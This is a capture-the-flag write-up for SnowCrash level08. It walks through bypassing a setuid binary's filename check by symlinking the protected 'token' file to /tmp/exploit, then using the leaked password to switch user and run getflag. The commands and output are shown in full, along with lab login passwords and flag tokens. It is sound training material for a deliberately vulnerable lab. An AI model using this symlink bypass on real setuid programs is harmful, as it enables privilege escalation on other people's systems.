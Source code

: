 # Level08

## How to login

```
ssh level08@192.168.1.184 -p 4242
password: fiumuikeil55xe9cu4dood66h
```

## How to get the flag

Once logged, we have access to two files called 'level08' and 'token' (both belonging to user 'flag08'). We try to see the content of 'token' but we are not allowed since the file belongs to user 'flag08'. On the other hand, we have the binary file 'level08' that needs an argument (in that case the token) that presumably will give us access to the password.
```
level08@SnowCrash:~$ ls -l
total 16
-rwsr-s---+ 1 flag08 level08 8617 Mar  5  2016 level08
-rw-------  1 flag08 flag08    26 Mar  5  2016 token
level08@SnowCrash:~$ cat token 
cat: token: Permission denied
level08@SnowCrash:~$ ./level08 token 
You may not access 'token'
```

It is noticed that the binary has the Setuid bit set, meaning that it will be executed with the privileges of the file owner, this can be a security risk if the file is vulnerable to exploitation since an attacker could potentially exploit the file to gain the privileges of the file owner (flag08). Thanks to this we can execute 'level08'.

After some thought we decide to execute 'level08' with another file as argument, instead of 'token' to see what happens. Let's try with the '.profile' file.
```
level08@SnowCrash:~$ ls -la
total 28
dr-xr-x---+ 1 level08 level08  140 Mar  5  2016 .
d--x--x--x  1 root    users    340 Aug 30  2015 ..
-r-x------  1 level08 level08  220 Apr  3  2012 .bash_logout
-r-x------  1 level08 level08 3518 Aug 30  2015 .bashrc
-rwsr-s---+ 1 flag08  level08 8617 Mar  5  2016 level08
-r-x------  1 level08 level08  675 Apr  3  2012 .profile
-rw-------  1 flag08  flag08    26 Mar  5  2016 token
level08@SnowCrash:~$ ./level08 .profile
level08: Unable to open .profile: Permission denied
```

The output error message is different, so after some thought, we think that maybe 'level08' is just checking if the name of the file is 'token'. Since we cannot copy or modify the 'token' file, we decide to create a symbolic link in order to bypass filename checks in the program, allowing us to read the contents of the token file indirectly.
```
level08@SnowCrash:~$ ln -s ~/token /tmp/exploit     #Absolute path required
level08@SnowCrash:~$ ./level08 /tmp/exploit
quif5eloekouj29ke0vouxean
level08@SnowCrash:~$ 
```

It seems that it worked, now we only need to obtain the flag.
```
level08@SnowCrash:~$ su flag08
Password: 
Don't forget to launch getflag !
flag08@SnowCrash:~$ getflag
Check flag.Here is your token : 25749xKZ8L7DkSCwJkT9dyv6f
```